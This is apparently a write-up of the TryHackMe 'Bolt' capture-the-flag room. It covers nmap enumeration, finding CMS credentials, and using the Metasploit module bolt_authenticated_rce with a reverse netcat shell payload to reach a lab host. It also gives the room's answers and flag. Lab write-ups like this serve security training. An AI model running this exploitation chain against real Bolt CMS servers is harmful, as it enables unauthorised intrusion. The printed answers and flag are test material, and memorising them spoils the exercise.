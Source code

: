 # Bolt

A hero is unleashed

[Bolt](https://tryhackme.com/room/bolt)

## Topic's

* Network Enumeration
* Web Enumeration
* Web Poking
* Security Misconfiguration
* Using Metasploit
* Exploitation Bolt CMS 3.7.0

## Deploy the machine

This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

If you have any queries or feedback you can reach me through the TryHackMe [Discord server](https://discord.gg/F7ERYzz) or through [Twitter](https://twitter.com/0x9747/).

1. Start the machine

`No answer needed`

## Hack your way into the machine!

**A hero is unleashed**

Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.

1. What port number has a web server with a CMS running?

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 16:06 CEST
Nmap scan report for 10.10.174.31
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 53e7a3
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 373a0e
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=9/29%Time=5F733F6C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,29E1,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Tue,\x2029\x20Sep\x20
SF:2020\x2014:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x20373a0e\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:
SF:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x2053e7a3\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds
```

`8000`

2. What is the username we can find in the CMS?

[http://10.10.174.31:8000/entry/message-from-admin](http://10.10.174.31:8000/entry/message-from-admin)

![](2020-09-29_16-20.png)

`Bolt`

1. What is the password we can find for the username?

[http://10.10.174.31:8000/entry/message-for-it-department](http://10.10.174.31:8000/entry/message-for-it-department)

![](2020-09-29_16-10.png)

`boltadmin123`

4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

[http://10.10.174.31:8000/bolt/login](http://10.10.174.31:8000/bolt/login)

![](2020-09-29_16-26.png)

`Bolt 3.7.1`

5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

[https://www.exploit-db.com/exploits/48296](https://www.exploit-db.com/exploits/48296)

`48296`

6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....) Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`

```
sudo msfconsole
msf5 > use unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) >
```

`exploit/unix/webapp/bolt_authenticated_rce`

7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

`No answer needed`

2. Look for flag.txt inside the machine.

```
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`